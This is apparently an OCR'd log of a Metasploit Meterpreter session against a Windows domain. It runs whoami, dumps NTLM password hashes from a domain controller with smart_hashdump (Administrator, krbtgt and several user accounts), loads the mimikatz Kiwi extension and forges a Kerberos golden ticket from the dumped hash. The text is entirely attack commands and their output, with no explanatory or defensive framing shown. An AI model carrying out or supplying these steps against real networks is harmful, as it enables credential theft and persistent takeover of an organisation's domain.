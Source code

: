 ```
Channel 7 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\grahamc>whoami /user
whoami /user

USER INFORMATION
----------------

User Name   SID                                           
=========== ==============================================
b2b\grahamc S-1-5-21-1381631214-1986580073-1137387850-1173

C:\Users\grahamc>exit
exit
meterpreter > background 
[*] Backgrounding session 1...
msf exploit(handler) > sessions -i 2
[*] Starting interaction with 2...

meterpreter > run post/windows/gather/smart_hashdump 

[*] Running module against B2B-DC-M1
[*] Hashes will be saved to the database if one is connected.
[*] Hashes will be saved in loot in JtR password file format to:
[*] /Users/gee/.msf4/loot/20171106170906_default_10.3.1.21_windows.hashes_208765.txt
[+] 	This host is a Domain Controller!
[*] Dumping password hashes...
[+] 	Administrator:500:aad3b435b51404eeaad3b435b51404ee:64fcc6af15ea6a56542e4a27928a729d
[+] 	krbtgt:502:aad3b435b51404eeaad3b435b51404ee:24fb62b8c40db1187cdf00531733be7b
[+] 	SachinP:1106:aad3b435b51404eeaad3b435b51404ee:3a35b696f3fde69c9c59848fa95d7f1b
[+] 	BrendonB:1107:aad3b435b51404eeaad3b435b51404ee:3b9dd24c020f9e37508c2d3ce8b4fe91
[+] 	CINDY:1108:aad3b435b51404eeaad3b435b51404ee:808b904500c319bebb1d1ff636e12702

... snip ...

meterpreter > use kiwi
Loading extension kiwi...

  .#####.   mimikatz 2.0 alpha (x86/win32) release "Kiwi en C"
 .## ^ ##.
 ## / \ ##  /* * *
 ## \ / ##   Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 '## v ##'   http://blog.gentilkiwi.com/mimikatz             (oe.eo)
  '#####'    Ported to Metasploit by OJ Reeves `TheColonial` * * */


[!] Loaded x86 Kiwi on an x64 architecture.
success.

meterpreter > golden_ticket_create -u administrator -d btb -k 64fcc6af15ea6a56542e4a27928a729d -s S-1-5-21-1381631214-1986580073-1137387850 -t btb_golden_ticket.tk
[+] Golden Kerberos ticket written to btb_golden_ticket.tk
```
